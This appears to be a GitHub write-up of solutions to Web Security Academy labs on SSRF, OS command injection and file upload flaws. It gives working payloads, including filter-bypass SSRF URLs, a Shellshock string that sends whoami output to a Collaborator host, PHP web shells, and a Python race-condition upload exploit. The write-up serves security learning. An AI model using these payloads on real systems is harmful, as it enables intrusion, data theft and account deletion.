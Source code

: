 ## Server-side request forgery (SSRF)
1. <b>Basic SSRF against the local server</b> - Go to one product from the home page and press `check stock`(intercept it with burp) send it to repeater and you will find a parameter named `stockApi` which has a url. In this url if we put `http://localhost/admin` and send the request we will see the admin panel. To solve this lab we have to put in `stockApi` param `http://localhost/admin/delete?username=carlos`
2. <b>Basic SSRF against another back-end system</b> - network pivoting send requests to intruder and `stockApi=http://192.168.0.$ip$:8080/admin` 
3. <b>SSRF with blacklist-based input filter</b> - `http://127.1/%2561dmin/delete?username=carlos`
4. <b>SSRF with filter bypass via open redirection vulnerability</b> - `/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos`
5. <b>Blind SSRF with out-of-band detection</b> - Go to home page and press one of products while you intercepting the requests and you will see the `referer` header. After that go to `burp collaborator` and change the `referer` value to http://xxxxx.collaboratorburp.net and the lab is solved. 
6. <b>SSRF with whitelist-based input filter</b> - For this lab we have to get the access to admin panel and delete carlos account but its not the same like the old times. For the solution the first step is to go in one product and press `check stock` and pass this url into to `api parameter` `http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos`
7. <b>Blind SSRF with Shellshock exploitation</b> - Solution for tihs labs is combination of the `Blind SSRF with out-of-band detection` and the `SSRF network pivoting`. First of all we have to intercept a requests when we send a get requests for a product and send it to `intruder` after that we can see `User-Agend` & `Referer` headers so far so good.
For exploitation part:<br>
<b>User-Agent header</b> - Delete the old string and paste this payload: <br>
`() { :; }; /usr/bin/nslookup $(whoami).4diew0hehvzuachcyn7t9rpax13s3gs.burpcollaborator.net` <br>
<b>Referer header</b> - Delete the old strings and put the ip `http://192.168.0.X:8080/` but and the X letter we have to put the $ symbols and in payload tab we have to choose `numbers` starting from 1 to 255 with step 1 and start the attack. After a few requests we can see our results in burpcollaborator.

## OS command injection
1. <b>OS command injection, simple case</b> - Go to `https://xxxx.web-security-academy.net/product?productId=x` and start intercepting from burp while pressing the check stock button. Send it to repeater and chain the `whoami` command at the end of productId=x `productId=333;whoami&storeId=1`
2. <b>Blind OS command injection with time delays</b> - 


## File upload vulnerabilities
1. <b>Remote code execution via web shell upload</b> - Try to upload just a php script with .php extension
2. <b>Web shell upload via Content-Type restriction bypass</b> - Try to change <b>content-type</b> from x-php to <b>image/png</b>
3. <b>Web shell upload via path traversal</b> - Change the <b>filename</b> from burpsuite intercept to <b>..%2fget_flag.php</b> and get the flag to /files/avatars/../get_flag.php
4. <b>Web shell upload via extension blacklist bypass</b> - Change the filename from <b>.php</b> extension to <b>.phtlm</b> extension and upload it
5. <b>Web shell upload via obfuscated file extension</b> - Intercept upload request and change the filename with extension <b>.php%00.png</b> - <b>Null byte technique</b>
6. <b>Remote code execution via polyglot web shell upload</b> - For this lab we have to use <b>exiftool</b> and one random .jpg or .png image. The exploitation part `exiftool -comment="<?php system('badstuff');?>" image_name.png or .jpg -o get_flag.php` after that a php file will created with get_flag.php name upload it and redirect into it to get the flag.
7. <b>Web shell upload via race condition</b> - At the lab description we can find a <b>hint</b> which has inside the source code of upload functionality.
Lets explain the code
```php
move_uploaded_file($_FILES["avatar"]["tmp_name"], $target_file);

if (checkViruses($target_file) && checkFileType($target_file)) {
    echo "The file ". htmlspecialchars( $target_file). " has been uploaded.";
} else {
    unlink($target_file);
    echo "Sorry, there was an error uploading your file.";
    http_response_code(403);
}
```
"As you can see from the source code above, the uploaded file is moved to an accessible folder, where it is checked for viruses. Malicious files are only removed once the virus check is complete. This means it's possible to execute the file in the small time-window before it is removed. "
<br>
So I create a exploit with python multithreading,requests modules just to grab the flag.
```python
import requests
import threading

def upload_exploit():
	burp0_url = "https://0aa000fc0444aa3dc03a8981009500e6.web-security-academy.net:443/my-account/avatar"
	burp0_cookies = {"session": "sbjdev7ZM9sCuhQ2irsKrh0SjX7wddRT"}
	burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "https://0aa000fc0444aa3dc03a8981009500e6.web-security-academy.net/my-account", "Content-Type": "multipart/form-data; boundary=---------------------------35393652352872705425704695024", "Origin": "https://0aa000fc0444aa3dc03a8981009500e6.web-security-academy.net", "Upgrade-Insecure-Requests": "1", "Sec-Fetch-Dest": "document", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-User": "?1", "Te": "trailers", "Connection": "close"}
	burp0_data = "-----------------------------35393652352872705425704695024\r\nContent-Disposition: form-data; name=\"avatar\"; filename=\"get_flag.php\"\r\nContent-Type: application/x-php\r\n\r\n<?php system('cat /home/carlos/secret')?>\n\r\n-----------------------------35393652352872705425704695024\r\nContent-Disposition: form-data; name=\"user\"\r\n\r\nwiener\r\n-----------------------------35393652352872705425704695024\r\nContent-Disposition: form-data; name=\"csrf\"\r\n\r\nHEhkjls5YL1vQsQRNl2qJrpSAqeAsGMK\r\n-----------------------------35393652352872705425704695024--\r\n"
	requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)


def get_flag():
	endpoint = "https://0aa000fc0444aa3dc03a8981009500e6.web-security-academy.net:443/files/avatars/get_flag.php"
	r=requests.get(endpoint)
	print(r.text)
	

t1 = threading.Thread(target=upload_exploit, name='t1')
t2 = threading.Thread(target=get_flag, name='t2')  
  
t1.start()
t2.start()
  
t1.join()
t2.join()

```

 [More tricks about file upload vulnerabilities](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files#upload-tricks)
